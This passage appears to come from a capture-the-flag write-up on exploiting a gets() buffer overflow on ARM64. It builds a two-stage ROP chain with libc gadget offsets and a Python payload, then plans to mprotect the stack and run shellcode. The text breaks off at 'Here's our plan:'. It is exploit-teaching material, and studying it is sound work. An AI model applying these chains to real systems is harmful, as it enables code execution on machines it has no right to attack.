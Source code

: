 If this continues, it would pop the preserved x30 at the end of `gets` and then jump back to `gets` again in an infinite loop.

To bypass it, we use a simple trick and return at `gets+0x8`, skipping the preservation. This way, when it pops x30 at the end, we would be able to control it and jump to our next gadget.

This is the rough sketch of our first stage ROP-chain:

```python
gadget = libcbase + 0x00062554 #0x0000000000062554 : ldr x0, [x29, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret // to control x0

payload = ""

payload += p64(next_x29) + p64(gadget) + p64(0x0) + p64(0x8) # 0x0 and 0x8 are the local variables that shouldn't be overwritten
payload += p64(next_x29) + p64(gets_address) + p64(0x0) + p64(new_x29_stack) # Link register pointing to the next frame + gets() of libc + just a random stack variable + param popped by gadget_1 into x1 (for param of gets)
```

Now that we have infinite space for our second stage ROP-chain, what should we do?

At first we decided to do the open/read/write all in ROP but it would make it unnecessarily long and complex, so instead we `mprotect()` the stack to make it executable and then jump to shellcode we placed on the stack.

`mprotect` takes 3 arguments, so we need to control x0, x1 and x2 to succeed.

Well, we began gadget hunting again. We already control x0, so we found this gadget:
```
gadget_1 = 0x00000000000ed2f8 : mov x1, x0 ; ret
```
At first glance, it looks perfect, copying x0 into x1. But if you have been paying close attention, you would realize it doesn't modify x30, so we won't be able to control execution beyond this.

What if we take a page from JOP (jump oriented programming) and find a gadget which given us the control of x30 and then jumps (not call) to another user controlled address?

```
gadget_2 = 0x000000000006dd74 :ldp x29, x30, [sp], #0x30 ; br x3
```

Oh wowzie, this one gives us the control of x30 and then jumps to x3. Now we just need to control x3.....

```
gadget_3 = 0x000000000003f8c8 : ldp x19, x20, [sp, #0x10] ; ldp x21, x22, [sp, #0x20] ; ldp x23, x24, [sp, #0x30] ; ldp x29, x30, [sp], #0x40 ; ret

gadget_4 = 0x0000000000026dc4 : mov x3, x19 ; mov x2, x26 ; blr x20
```

The first gadget here gives us control of x19 and x20, the second one moves x19 into x3 and calls x20.

Chaining these two, we can control x3 and still have control over the execution.

Here's our plan:
